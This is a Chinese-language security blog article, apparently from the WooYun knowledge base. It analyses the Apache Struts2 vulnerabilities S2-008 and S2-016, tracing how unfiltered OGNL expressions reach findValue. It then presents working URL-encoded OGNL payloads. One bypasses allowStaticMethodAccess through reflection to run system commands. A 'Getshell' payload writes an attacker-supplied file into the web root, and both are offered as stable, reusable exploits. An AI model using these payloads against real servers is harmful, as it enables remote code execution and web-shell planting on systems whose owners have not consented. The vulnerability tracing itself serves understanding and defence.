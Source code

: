 # struts2 最近几个漏洞分析&稳定利用 payload

2014/02/11 11:48 | [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

weibo:[genxor](http://weibo.com/u/2296090825)

## 0x00 背景

* * *

看到网上关于 struts2 利用的文章非常多，但是对于漏洞触发跟踪分析的文档比较少，闲来无事跟踪了一下 struts 最近吵得比较火的两个漏洞，研究了一下能够稳定利用的 payload。

## 0x01 S2-008

* * *

Struts2 框架存在一个 devmode 模式，方便开发人员调试程序，但是默认 devmode 是不开启的，如果想要使用，需要手动修改参数，可以将 struts.properties 中的 devmode 设置为 true，或是在 struts.xml 中添加如下代码，

```
<constant name="struts.devMode" value="true" /> 
```

实际上 devmode 依赖于 struts2 底层的 struts2-core.jar 中的 DebuggingInterceptor.java 实现，然后漏洞也存在于此程序中。这里我以 debug=command 这个逻辑下，测试漏洞，我的 POC 如下所示：

```
http://localhost:8080/S2-016/hello.action?debug=command&expression= %23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

首先，这里是 devmode 的几种模式，

![enter image description here](img/img1_u39_png.jpg)

继续跟踪 DebuggingInterceptor.java 的代码，发现问题出在下面这个逻辑当中

![enter image description here](img/img2_u41_png.jpg)

跟踪参数如图

![enter image description here](img/img3_u43_png.jpg)

可以看到这里

```
String cmd = getParameter(EXPRESSION_PARAM); 
… 
writer.print(stack.findValue(cmd)); 
```

这里 cmd 没做任何处理，后面直接 findValue（findValue 能够执行 OGNL 表达式，具体参考官方文档），导致 OGNL 表达式执行。

关于这个漏洞执行，其实没什么好说的，关键是这个 payload 调用 java 反射类(可以访问一些私有成员变量)绕过了 struts2 限制执行 java 静态方法的规则法的规则，使之前 apache 官方的修复又白费了。因为 struts2 在 2.3.14.1 版本之后便设置#_memberAccess[“allowStaticMethodAccess”]为不可修改，而要调用 java 静态方法，必须要设置 allowStaticMethodAccess 为 true 才可以。这里使用

```
#f = #_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')
#f.setAccessible(true) 
#f.set(#_memberAccess, true) 
```

这里使用 java 的反射机制绕过了限制。另外，还有利用 java.lang.ProcessBuilder 类的 start()方法来实现（ProcessBuilder 类是用来创建系统进程的，每个实例管理一个进程属性集合，start 方法用来创建一个新的进程实例，并且可以从相同的实例中反复多次的初始化、创建子进程。随便构造一个 java.lang.ProcessBuilder 的实例，然后调用它的 start()方法，便达到命令执行的目的），但这个算是另一种思路，并没有从根本上修改#_memberAccess[“allowStaticMethodAccess”]的值。

## 0x02 S2-016

* * *

在 struts2 中，DefaultActionMapper 类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟 OGNL 表达式，由于 struts2 没有对这些前缀做过滤，导致利用 OGNL 表达式调用 java 静态方法执行任意系统命令。

这里以“redirect:”前缀举例，struts2 会将“redirect:”前缀后面的内容设置到 redirect.location 当中，这里我们一步步跟踪，首先是这个 getMapping 函数跟入

![enter image description here](img/img4_u32_png.jpg)

这里一直到这个 handleSpecialParameters()，继续跟入

![enter image description here](img/img5_u34_png.jpg)

![enter image description here](img/img6_u12_png.jpg)

这里真正传入 OGNL 表达式是在这个 parameterAction.execute()中，继续跟入来到 DefaultActionMapper.java 的代码

![enter image description here](img/img7_u18_png.jpg)

这里 key.substring(REDIRECT_PREFIX.length())便是前缀后面的内容也就是 OGNL 表达式，struts2 会调用 setLocation 方法将他设置到 redirect.location 中。然后这里调用 mapping.setResult(redirect)将 redirect 对象设置到 mapping 对象中的 result 里，如图所示

![enter image description here](img/img8_u17_png.jpg)

然而上面的过程只是传递 OGNL 表达式，真正执行是在后面，这里是在 FilterDispatcher 类中的 dispatcher.serviceAction()方法，这里的 mapping 对象中设置了传入的 OGNL

![enter image description here](img/img9_u12_png.jpg)

这里跟入方法最终会在 TextParseUtil 这个类的调用 stack.findValue()方法执行 OGNL。

![enter image description here](img/img10_u22_png.jpg)

## 0x03 PAYLOAD

* * *

这里我结合之前几个漏洞凑出一个通用 payload，目前测试还是很稳定的

命令执行

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2c%23b%3dnew java.io.InputStreamReader%28%23a%29%2c%23c%3dnew java.io.BufferedReader%28%23b%29%2c%23d%3dnew char%5b50000%5d%2c%23c.read%28%23d%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%23d%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

Getshell

```
%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3dfalse%2c%23f%3d%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2c%23f.setAccessible%28true%29%2c%23f.set%28%23_memberAccess%2ctrue%29%2c%23a%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletRequest%22%29%2c%23b%3dnew+java.io.FileOutputStream%28new%20java.lang.StringBuilder%28%23a.getRealPath%28%22/%22%29%29.append%28@java.io.File@separator%29.append%28%23a.getParameter%28%22name%22%29%29.toString%28%29%29%2c%23b.write%28%23a.getParameter%28%22t%22%29.getBytes%28%29%29%2c%23b.close%28%29%2c%23genxor%3d%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2c%23genxor.println%28%22BINGO%22%29%2c%23genxor.flush%28%29%2c%23genxor.close%28%29 
```

同时在之前的 struts2exp 这个程序基础上修改出一个 exp，整合了近几年出现的几个高危漏洞,

![enter image description here](img/img11_u26_png.jpg)

程序先不公开放出，大家可以自己用语句测试自己的服务器是否有该问题。

版权声明：未经授权禁止转载 [genxor](http://drops.wooyun.org/author/genxor "由 genxor 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [弱随机化种子漏洞科普](http://drops.wooyun.org/papers/1419)
*   [OQL(对象查询语言)在产品实现中造成的 RCE(Object Injection)](http://drops.wooyun.org/papers/4115)
*   [BCTF Writeup](http://drops.wooyun.org/papers/1071)
*   [Spring MVC xml 绑定 pojo 造成的 XXE](http://drops.wooyun.org/papers/1911)
